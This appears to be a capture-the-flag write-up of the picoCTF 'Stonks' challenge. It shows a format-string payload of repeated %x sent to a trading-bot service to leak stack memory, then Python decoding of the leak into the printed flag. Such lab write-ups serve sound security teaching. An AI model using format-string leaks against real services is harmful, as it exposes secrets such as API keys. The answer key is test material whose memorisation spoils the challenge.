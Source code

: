 
 
#### Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c) `nc mercury.picoctf.net 33411`

## Pistas

Okay, maybe I'd believe you if you find my API key.


## Solución

``` 

hannlec117-picoctf@webshell:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
85f5330804b00080489c3f7efcd80ffffffff185f3160f7f0a110f7efcdc7085f4180185f531085f53306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ff94007df7f37af8f7f0a4407c62150010f7d99ce9f7f0b0c0f7efc5c0f7efc000ff9424f8f7d8a68df7efc5c0
Portfolio as of Mon May 15 22:36:40 UTC 2023


1 shares of R
5 shares of PXUP
Goodbye!

hannlec117-picoctf@webshell:~$ python
Python 3.10.6 (main, Aug 10 2022, 11:40:04) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s 
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 's' is not defined
>>> s = 'ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41ÿ}'
>>> for x in range(0,len(s),4):
...     print(s[x+3]+s[x+2]+s[x+1]+s[x],end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
IndexError: string index out of range
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6>>> 
```

## Bandera
Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}


## Notas adicionales


## Referencias
